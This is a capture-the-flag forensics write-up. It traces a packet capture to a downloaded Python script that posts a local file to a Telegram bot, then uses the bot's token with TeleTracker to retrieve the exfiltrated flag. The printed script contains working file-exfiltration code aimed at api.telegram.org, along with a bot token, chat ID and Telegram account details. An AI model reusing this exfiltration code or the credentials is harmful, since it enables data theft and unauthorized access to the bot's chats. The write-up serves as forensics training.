


### Challenge Details

* **Category**: Forensics
* **Difficulty**: Medium

A routine packet capture has revealed something far more sinister than expected. Among the typical web chatter lies a suspicious HTTP request—simple at first glance, but with deeper implications. A mysterious Python bytecode file was transferred, and soon after, critical data appears to have been exfiltrated to an unknown Telegram bot.

Can you retrace the attacker's steps, decode their payload, and intercept the stolen flag before it's lost in the void?

### Requirements

* Network traffic analysis (HTTP, TCP)
* Python bytecode reverse engineering
* Familiarity with Telegram bots
* Sleuthing skills and tool mastery


---

*Author: xtle0o0*

---

Participants were provided with a pcapng file. Reading through the description, we can understand that we need to look for HTTP requests. Let's check:



Looking at the communication, we can see that 192.168.153.129 accessed a page (HTTP server - simple Python HTTP server) on a public IP server 139.59.162.57 that listed:


```html
<!DOCTYPE HTML>
<html lang="en">
<head>
<meta charset="utf-8">
<title>Directory listing for /</title>
</head>
<body>
<h1>Directory listing for /</h1>
<hr>
<ul>
<li><a href="payload.py">payload.py</a></li>
</ul>
<hr>
</body>
</html>
```

Then 192.168.153.129 downloaded a payload.py file.

Let's export the payload.py and analyze it:


Looking through the code:

```python
import requests
import os
import time


def get_browser_cookies():

    print("[*] Extracting browser cookies...")
    return {"facebook.com": "FAKE_FB_COOKIE", "gmail.com": "FAKE_GMAIL_COOKIE"}

def get_saved_passwords():

    print("[*] Retrieving saved passwords...")
    return [("user@example.com", "P@ssw0rd123"), ("admin@corp.com", "Adm1nPass!")]


def exfiltrate_file():
    file_path = "/home/kali/Desktop/sec.txt"
    token = "8093615049:AAEtXh1ThBm5jZ-hQ7L57HxwwfK1DsFT9eo" 
    chat_id = "5112027572"
    
    if os.path.exists(file_path):
        with open(file_path, 'rb') as f:
            print("[*] Sending file to Telegram...")
            requests.post(
                f"https://api.telegram.org/bot{token}/sendDocument",
                data={"chat_id": chat_id},
                files={"document": f}
            )
    else:
        print(f"[!] File not found: {file_path}")

def main():
    print("[*] Starting credential harvesting...")
    cookies = get_browser_cookies()
    passwords = get_saved_passwords()
    
    # Simulate delay
    time.sleep(2)

    # Pretend to do something with the harvested data
    print("[*] Cookies:", cookies)
    print("[*] Passwords:", passwords)

    # Exfiltrate the flag file
    exfiltrate_file()

if __name__ == "__main__":
    main()
```

We can see that it's a cookie and password stealer that sends sec.txt to a Telegram bot with a user ID 5112027572.

So here participants need to extract the file from the chat between 5112027572 and the bot. To do that, you need to use [TeleTracker](https://github.com/tsale/TeleTracker) - a simple search with ChatGPT or Google could lead you to it.


Using the tool:

```bash
──(env)─(kali㉿kali)-[~/Downloads/TeleTracker]
└─$ python TeleGatherer.py -t 8093615049:AAEtXh1ThBm5jZ-hQ7L57HxwwfK1DsFT9eo -c 5112027572
Bot token and chat ID pair already exists in the file.
Are you sure you want to continue? (y/n): y
Bot Information:
- ok: True
- id: 8093615049
- is_bot: True
- first_name: hacker_dark_hacker
- username: hacker_dark_hacker_bot
- can_join_groups: True
- can_read_all_group_messages: False
- supports_inline_queries: False
- can_connect_to_business: False
- has_main_web_app: False

Chat Information:
- ok: True
- id: 5112027572
- first_name: LEO
- username: P88_80
- type: private
- can_send_gift: True
- active_usernames: ['P88_80']
- has_private_forwards: True
- accepted_gift_types: {'unlimited_gifts': True, 'limited_gifts': True, 'unique_gifts': True, 'premium_subscription': True}
- max_reaction_count: 11
- accent_color_id: 1

Chat Administrators:
- ok: False
- error_code: 400
- description: Bad Request: there are no administrators in the private chat


My Default Administrator Rights:
- ok: True
- can_manage_chat: False
- can_change_info: False
- can_delete_messages: False
- can_invite_users: False
- can_restrict_members: False
- can_pin_messages: False
- can_manage_topics: False
- can_promote_members: False
- can_manage_video_chats: False
- can_post_stories: False
- can_edit_stories: False
- can_delete_stories: False
- is_anonymous: False

Available Bot Commands:
- ok: True
- result: []


Chat Member Count:
- ok: True
- result: 2


Options:
1. Monitor for new messages from a different bot
2. Send a message to the malicious telegram channel
3. Spam the malicious telegram channel with a specific message
4. Delete all messages from the malicious telegram channel that are sent within 24 hours

5. Get approximate number of messages on the malicious telegram channel
6. Download ALL messages from the malicious telegram channel
7. Send a file to the malicious telegram channel

8. EXIT

Enter your choice: 
```


Let's use option 6 to get all messages:


```bash
Enter your choice: 6
Message sent successfully! -> message_id: 6

 TOTAL NUMBER OF MESSAGES: ~6

Press ENTER to retreive all messages or enter a number (Downloading from Newest to Oldest): 
Would you like to start from a specific message_id? (y/n): n
====================

_client: <pyrogram.client.Client object at 0x7efe453f1e80>
id: 5
from_user: {
    "_": "User",
    "id": 5112027572,
    "is_self": false,
    "is_contact": false,
    "is_mutual_contact": false,
    "is_deleted": false,
    "is_bot": false,
    "is_verified": false,
    "is_restricted": false,
    "is_scam": false,
    "is_fake": false,
    "is_support": false,
    "is_premium": false,
    "first_name": "LEO",
    "status": "UserStatus.RECENTLY",
    "username": "P88_80",
    "language_code": "en"
}
date: 2025-05-16 20:24:47
chat: {
    "_": "Chat",
    "id": 5112027572,
    "type": "ChatType.PRIVATE",
    "is_verified": false,
    "is_restricted": false,
    "is_scam": false,
    "is_fake": false,
    "is_support": false,
    "username": "P88_80",
    "first_name": "LEO"
}
text: wa rak nadi a primo mli wsalti hnaya


====================

====================

_client: <pyrogram.client.Client object at 0x7efe453f1e80>
id: 2
from_user: {
    "_": "User",
    "id": 8093615049,
    "is_self": true,
    "is_contact": false,
    "is_mutual_contact": false,
    "is_deleted": false,
    "is_bot": true,
    "is_verified": false,
    "is_restricted": false,
    "is_scam": false,
    "is_fake": false,
    "is_support": false,
    "is_premium": false,
    "first_name": "hacker_dark_hacker",
    "username": "hacker_dark_hacker_bot"
}
date: 2025-05-16 20:08:36
chat: {
    "_": "Chat",
    "id": 5112027572,
    "type": "ChatType.PRIVATE",
    "is_verified": false,
    "is_restricted": false,
    "is_scam": false,
    "is_fake": false,
    "is_support": false,
    "username": "P88_80",
    "first_name": "LEO"
}
media: MessageMediaType.DOCUMENT
document: {
    "_": "Document",
    "file_id": "BQACAgQAAxkDAAMCaCnjOM6bIO8imJFBRusAAcrTzZH8AAKRGwACJ2xAUYpmGkPB-PPMHgQ",
    "file_unique_id": "AgADkRsAAidsQFE",
    "file_name": "sec.txt",
    "mime_type": "text/plain",
    "file_size": 31,
    "date": "2025-05-16 20:08:36"
}
outgoing: True


====================

[*] Download of 2_sec.txt is complete!
[sessions/5112027572/8093615049_AAEtXh1ThBm5jZ-hQ7L57HxwwfK1DsFT9eo.session] Waiting for 7 seconds before continuing (required by "users.GetFullUser")
====================
```

As we can see, TeleTracker successfully got 2_sec.txt.
Let's see the content:

```bash
┌──(env)─(kali㉿kali)-[~/Downloads/TeleTracker/downloads/hacker_dark_hacker_bot]
└─$ cat 2_sec.txt            
CMC{fl4g_st34l3d_v1a_tel3gr4m}

```

Flag: `CMC{fl4g_st34l3d_v1a_tel3gr4m}`